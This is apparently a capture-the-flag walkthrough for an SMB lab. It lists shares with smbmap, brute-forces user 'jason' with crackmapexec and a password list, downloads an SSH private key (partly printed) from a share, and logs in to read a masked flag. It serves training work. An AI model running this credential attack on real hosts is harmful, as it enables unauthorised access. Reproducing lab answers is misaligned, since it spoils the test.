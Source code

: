 ## Questions:

### What is the name of the shared folder with READ permissions?

```
smbmap -H $TARGET_IP
[+] IP: TARGET_IP:445	Name: TARGET                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	GGJ                                               	READ ONLY	Priv
	IPC$                                              	NO ACCESS	IPC Service (attcsvc-linux Samba)

```

### What is the password for the username "jason"?
* First, load pwd.list from resources.
```
crackmapexec smb $TARGET_IP -u jason -p pwd.list --local-auth
```

### Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

``` 
smbclient  //$TARGET_IP/GGJ -U 'jason%$PASSWORD' -

smb: \> ls
  .                                   D        0  Tue Apr 19 16:33:55 2022
  ..                                  D        0  Mon Apr 18 12:08:30 2022
  id_rsa                              N     3381  Tue Apr 19 16:33:04 2022

		14384136 blocks of size 1024. 10088352 blocks available
smb: \> get id_rsa
getting file \id_rsa of size 3381 as id_rsa (89.2 KiloBytes/sec) (average 89.2 KiloBytes/sec)
smb: \> !cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA1RKythwhDQVnsZpGDDeIWh/z0a4y5mQoIIBXOeHJM8rLNzB/fdMD
XvN+6R6s0wh/fpava2en2s/G6m8OGjjY8DbgO0A40HwzKyVEKk15tJ9QlcaqS0O77UrjW/
...
<SNIP>
....
```
```
 [★]$ ls
cacert.der  Documents  id_rsa  Pictures  pwd.list   Videos
Desktop     Downloads  Music   Public    Templates

```
```
chmod 600 id_rsa
ssh -i id_rsa jason@$TARGET_IP
cat flag.txt
HTB{SMB_*******_*********9}
```
